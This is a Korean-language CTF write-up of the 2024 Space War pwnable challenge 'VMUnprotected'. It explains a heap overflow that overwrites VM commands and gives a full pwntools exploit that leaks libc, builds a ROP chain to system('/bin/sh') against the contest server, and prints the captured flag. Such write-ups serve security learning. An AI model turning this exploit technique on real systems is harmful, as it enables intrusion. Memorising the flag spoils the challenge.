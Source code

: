 ```yaml
---
layout: simple
title: 2024 Space War Write-up
---
```


- 이름: 정지민
- 닉네임: mini_chip
- 소속: 고려대학교 사이버국방학과
- 이메일: jjm4043@gmail.com

---

## VMUnprotected

- 분야 - Pwnable
- 체감 난이도(1-10): 3

### Binary 분석

![Untitled](/CTF/Hspace_Space_War/img/Untitled.png)

문제의 이름처럼 전형적인 VM 문제입니다.

해당 문제의 경우에는, VM 바이너리 내부에 VM에서 실행되는 command까지 같이 들어 있습니다. 이 command값에 따라 그에 맞는 switch case문이 실행됩니다.

![Untitled](/CTF/Hspace_Space_War/img/Untitled_1.png)

ptr은 switch문의 case 2에서 getchar를 반복 실행하며 입력 받은 문자열을 저장하는 공간입니다.

dest는 command가 담겨있습니다.

![Untitled](/CTF/Hspace_Space_War/img/Untitled_2.png)

![Untitled](/CTF/Hspace_Space_War/img/Untitled_3.png)

getchar를 받는 로직을 살펴보면 “\n”을 입력 받을 때까지 무한대로 입력이 가능한 것을 확인할 수 있습니다. 이렇게 되면 malloc(0xFE)로 할당 받은 공간을 overflow시킬 수 있습니다.

힙 구조 상 해당 chunk와 인접한 chunk가 dest가 가리키는 chunk가 되며, 이는 command가 들어가 있는 chunk입니다. 그래서 ptr chunk를 overflow시켜서 command값을 overwrite하고 command를 마음대로 조작할 수 있는 취약점이 발생합니다.

![Untitled](/CTF/Hspace_Space_War/img/Untitled_4.png)

command로 수행되는 로직을 살펴보면,

command 값인 opcode(v3)와 idx값에 따라 지역 변수 v4 주변의 값들을 조작할 수 있습니다.

v4 주변의 값을 읽을 수도 있고, 해당 영역에 원하는 값을 쓰는 것도 가능합니다.

특히, 선언된 v4는 8byte 크기이지만 command로 입력될 수 있는 idx는 8보다 큰 값이 들어갈 수 있습니다.

스택에서 지역 변수 v4 아래에 있는 값 중 main함수의 ret address에 있는 값을 읽으면 libc 주소를 알아낼 수 있습니다. 그리고 ROP 세팅을 해준 뒤에 해당 함수를 종료시키면 쉘을 딸 수 있습니다.

### Exploit Code

```python
from pwn import *

p = remote("3.34.190.217", 8002)
#p = process("./VMUnprotect")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

payload = b"A" * 0x110
payload += b"A" * 240

#libc_start_main_leak
payload += b"\x01\x28"
payload += b"\x01\x29"
payload += b"\x01\x2a"
payload += b"\x01\x2b"
payload += b"\x01\x2c"
payload += b"\x01\x2d"
payload += b"\x01\x2e"
payload += b"\x01\x2f"
payload += b"\x02"
p.sendline(payload)

p.recvuntil(": ")

libc_start_main = u64(p.recvn(8))
print(hex(libc_start_main))
libc_base = libc_start_main - 0x029d90
system_addr = libc_base + 0x050d70
pop_rdi = libc_base + 0x000000000002a3e5
bin_sh = libc_base + 0x1d8678
ret = libc_base + 0x0000000000029139

#ROP Chaining
payload = b"\x04\x18" + (pop_rdi & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x19" + ((pop_rdi >> 8) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x1a" + ((pop_rdi >> 16) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x1b" + ((pop_rdi >> 24) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x1c" + ((pop_rdi >> 32) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x1d" + ((pop_rdi >> 40) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x1e" + ((pop_rdi >> 48) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x1f" + ((pop_rdi >> 56) & 0xff).to_bytes(1, byteorder="little")

payload += b"\x04\x20" + (bin_sh & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x21" + ((bin_sh >> 8) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x22" + ((bin_sh >> 16) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x23" + ((bin_sh >> 24) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x24" + ((bin_sh >> 32) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x25" + ((bin_sh >> 40) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x26" + ((bin_sh >> 48) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x27" + ((bin_sh >> 56) & 0xff).to_bytes(1, byteorder="little")

payload += b"\x04\x28" + (ret & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x29" + ((ret >> 8) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x2a" + ((ret >> 16) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x2b" + ((ret >> 24) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x2c" + ((ret >> 32) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x2d" + ((ret >> 40) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x2e" + ((ret >> 48) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x2f" + ((ret >> 56) & 0xff).to_bytes(1, byteorder="little")

payload += b"\x04\x30" + (system_addr & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x31" + ((system_addr >> 8) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x32" + ((system_addr >> 16) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x33" + ((system_addr >> 24) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x34" + ((system_addr >> 32) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x35" + ((system_addr >> 40) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x36" + ((system_addr >> 48) & 0xff).to_bytes(1, byteorder="little")
payload += b"\x04\x37" + ((system_addr >> 56) & 0xff).to_bytes(1, byteorder="little")

#End VM Logic
payload += b"\x20"
p.sendline(payload)

p.interactive()
```

![Untitled](/CTF/Hspace_Space_War/img/Untitled_5.png)

`flag: hspace{7a9de3a22d89b3c343d4d5ec621dcfba1e6091b144cb24abe43b6a888ff61bef}`

### 후기

일반적으로 Pwnable에서 출제되는 VM 문제의 경우 대부분 command를 직접 작성할 수 있게 해주지만, 이 문제의 경우 대놓고 command를 작성할 수는 없었습니다. command를 조작할 수 있는 취약 점을 찾은 뒤에 VM을 탈출할 수 있도록 command를 적절히 조작하는 점이 상당히 재미있었습니다.

command를 조작할 수 있는 취약점 자체와 쉘을 따는 command를 작성하는 것 자체는 상당히 쉬웠기 때문에 크게 어렵지는 않은 문제라고 생각합니다.

---